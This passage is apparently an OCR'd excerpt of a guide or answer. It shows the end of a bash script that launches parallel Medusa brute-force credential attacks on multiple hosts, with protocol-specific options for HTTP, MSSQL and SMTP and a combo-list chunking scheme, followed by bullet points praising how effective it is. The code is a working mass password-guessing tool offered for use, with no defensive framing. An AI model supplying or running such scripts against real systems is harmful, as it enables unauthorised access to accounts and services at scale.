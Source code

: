 ```bash
        break
    fi
    
    echo "[+] Attacking $HOST using $MODULE module with combo chunk $CHUNK"
    
    # Build command based on module requirements
    CMD="medusa -h $HOST -M $MODULE -t $THREADS -C $CHUNK"
    
    # Add module-specific options
    case $MODULE in
        http|https)
            [ -n "$PATH" ] && CMD="$CMD -m DIR:/$PATH"
            ;;
        mssql)
            CMD="$CMD -m TRUSTED:FALSE"
            ;;
        smtp)
            CMD="$CMD -m AUTH:LOGIN"
            ;;
    esac
    
    # Launch attack in background
    $CMD -f -O medusa_results_$HOST.txt &
    
    # Move used chunk to prevent reuse
    mv $CHUNK ${CHUNK}_used
    
    # Limit concurrent processes
    while [ $(jobs -r | wc -l) -ge $MAX_HOSTS ]; do
        sleep 5
    done
done

# Wait for all processes to complete
wait

echo "[+] All attacks completed. Compiling results..."

# Combine results
cat medusa_results_*.txt > medusa_all_results.txt
echo "[+] Results saved to medusa_all_results.txt"

# Clean up
rm combo_chunk_*
```

This approach is effective because:
- It distributes the attack across multiple targets simultaneously
- It customizes attack parameters based on the target protocol
- It manages system resources by controlling concurrency
- It preserves results from all attacks in a consolidated output
